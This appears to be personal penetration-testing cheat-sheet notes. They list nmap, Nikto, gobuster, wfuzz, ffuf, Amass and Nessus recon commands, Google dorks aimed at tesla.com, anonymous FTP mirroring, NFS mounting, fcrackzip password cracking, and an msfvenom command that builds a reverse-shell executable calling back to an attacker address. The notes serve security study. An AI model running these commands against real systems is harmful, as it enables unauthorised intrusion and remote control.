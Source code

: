 
What should be our Methodology when we are seeing a Website  ??
- Service Version Information
- Backend Directory's
- Looking for Source Code
- Potential Vulnerability Scanning With Nikto

<h2>Nmap</h2>

Normal Nmap Scanning
```
nmap -T4 -p- -A -Pn <IP_Address>
```

```
nmap -sS -T4 -p- -Pn <IP_Address>
```

```
nmap -sU -T4 --top-ports 1000 <IP_Address>
```

Ping Sweep
```
nmap -sn -n 10.200.95.0/24 -oA Ping-Sweep
```

```
nmap -sS 10.200.145.33 10.200.145.250 -v -oA Initial-Scan-Subnet1-Hosts
```

<h2>Nikto</h2>
```
 nikto -h <IP_Address>
```

<h2>Fuzzing</h2>
>[!important]  Gobuster

Vhost
```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://<IP_Address> -o gobuster/vhost-sub.txt -t 2
```

```
gobuster vhost -w /usr/share/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt -u http://<IP_Address> -t 2 -o gobuster/vhost-sub.txt
```



>[!important] Wfuzz
```
wfuzz -u <URL> -w <wordlist> -H "Host: FUZZ.example.com" --hc <status codes to hide>
```

```
wfuzz -u http://<Hostname> -w /usr/share/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt  -H "Host: FUZZ.<hostname>" --hc 400
```

```
--hc Hide status code
--hw Hide word count
--hl Hide line count
--hh Hide character count
```


>[!important] ffuf
```
ffuf -u http://holo.live -w /usr/share/wordlists/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt -H "HOST:FUZZ.holo.live" -mc 200 -o fuzz_holo.txt
```

```
Response code :
200 means ok
400 means error (i.e. 404 page not found)
300 means redirect
500 means server error
```

>[!important] 


<h2>Sub-Domains</h2>
Sublist3r
```
sublist3r -d <domain_name> -t 100
```

Amass
```
amass enum -d tesla.com 
```

```
amass intel -d tesla.com -whois
```

Httpprobe
```
cat domains.txt | httprobe >> working_domains.txt
```


<h2>Enumeration</h2>
```
wpscan -url <IP_address>    
```


```
whatweb <domain_name>
```


<h2>Google Dorks</h2>
```
site:tesla.com 
```

```
site:tesla.com -www
```

```
site:tesla.com -www -ir 
```

```
site:tesla.com filetype:docx
```

```
site:tesla.com filetype:pdf
```




<h2>Nessus</h2>
```
sudo dpkg -i Nessus-10.2.0-fbsd11-amd64.deb
```

New Scan ---> Vulnerability ---> Basic Network Scan

```
/bin/systemctl start nessusd.service
```

```
https://kali:8834/ 
```

 NEVER TRUST a vulnerability scanner always find it and verify it........


<h2>IP</h2>
```
After we run this command than only we were able to see the IP address.
Command : dhclient
Command : ip a 
```


<h2>ARP-Scan</h2>
```
arp-scan -l
```


<h2>FTP</h2>
```
FTP <ip address>
```

if want to download all the files:
```
wget -m ftp://anonymous:anonymous@10.10.10.98 #Donwload all
```

```
wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98 #Download all
```


<h2>NFS</h2>
```
Command : showmount -e <Ip address>
where e is used to list out the directories (i.e. mounted file share)
```

```
Command : mkdir /mnt/dev
Command : mount -t nfs 192.168.205.132/srv/nfs /mnt/dev
```

```
Now will make a directory to mount this file share (i.e. /srv/nfs )
will cd to /mnt (i.e. will have a by default directory named mnt )
where t is tack and nfs is the type 
```



<h2>Crack ZIP</h2>
```
 fcrackzip -v 
```

```
 fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip
```


<h2>MS Venom</h2>
```
Command : msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.205.128 LPORT=7777 -f exe > Wise.exe
```
where p is payload and f is filetype -o/> for output file



<h2>Dnsrecon </h2>
```
Command : dnsrecon -r 127.0.0.0/24 -n 192.168.205.134 -d blah
```

```
As there is dns record named blackpearl.tcm and have to add that in our Dns and etc/hosts file
Command : nano /etc/hosts (i.e. we have to add the edit the hosts file and not host)
And add 
192.168.205.134 blackpearl.tcm and save it 
```


<h2>Buffer Overflow</h2>
```

```
